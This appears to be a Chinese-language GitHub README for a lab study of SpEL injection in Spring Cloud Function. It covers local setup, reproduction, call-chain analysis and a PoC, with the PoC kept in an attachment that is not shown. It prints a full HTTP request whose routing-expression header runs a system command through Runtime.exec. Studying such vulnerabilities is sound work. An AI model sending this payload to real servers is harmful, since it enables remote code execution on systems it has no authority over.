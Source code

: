 # SPeL-injection-study

共分为环境搭建及漏洞复现、原理学习、POC编写三部分

一、环境搭建

IDEA新建spring initializr

![图片](https://user-images.githubusercontent.com/90664154/164909353-8e59c6c2-b38d-4bdb-8dcf-251abfb2dde3.png)
![图片](https://user-images.githubusercontent.com/90664154/164909361-5067e7e9-1afa-477a-a581-d8811f7b4cb6.png)
![图片](https://user-images.githubusercontent.com/90664154/164909390-ef235ebe-5f69-4004-ac6a-14c1746dd062.png)
这里生成jar包
![图片](https://user-images.githubusercontent.com/90664154/164909399-52db580e-c85e-46aa-96aa-6aa7996a9393.png)

在终端安装jdk11

java -jar jojoSPeL-0.01-SNAPSHOT.jar  部署jar包

![图片](https://user-images.githubusercontent.com/90664154/164909424-929dd7da-900d-44bb-923c-d9d5b22f5f4a.png)

访问127.0.0.1:8080验证
![图片](https://user-images.githubusercontent.com/90664154/164909431-224e18e6-e58e-4613-abd9-84087e0db1f7.png)

发送POC验证
POST /functionRouter HTTP/1.1
Host: 127.0.0.1:8080
spring.cloud.function.routing-expression: T(java.lang.Runtime).getRuntime().exec("calc")
Content-Type: application/x-www-form-urlencoded
Content-Length: 4

jojo

![图片](https://user-images.githubusercontent.com/90664154/164909439-3dd2662e-1eb7-4231-8ec6-95a7f2a262eb.png)

二、漏洞分析
header头的spring.cloud.function.routing-expression参数调用链：
org.springframework.cloud.function.web.mvc.FunctionController中,
body-> processReques(RoutingFunction)-> FunctionInvocationWrapper.apply-> doApply-> RoutingFunction(apply)-> org.springframework.cloud.function.context.config.RoutingFunction(route)-> this.functionFromExpression()，最终执行，这其中的安全过滤函数不充分
![图片](https://user-images.githubusercontent.com/90664154/164909446-6745d62c-4204-4b51-8efe-f792e9893166.png)

三、Poc编写

见附件jojoSPeL.py

![图片](https://user-images.githubusercontent.com/90664154/164909632-7243b33f-bcb2-49b6-8237-a2f7038328b9.png)
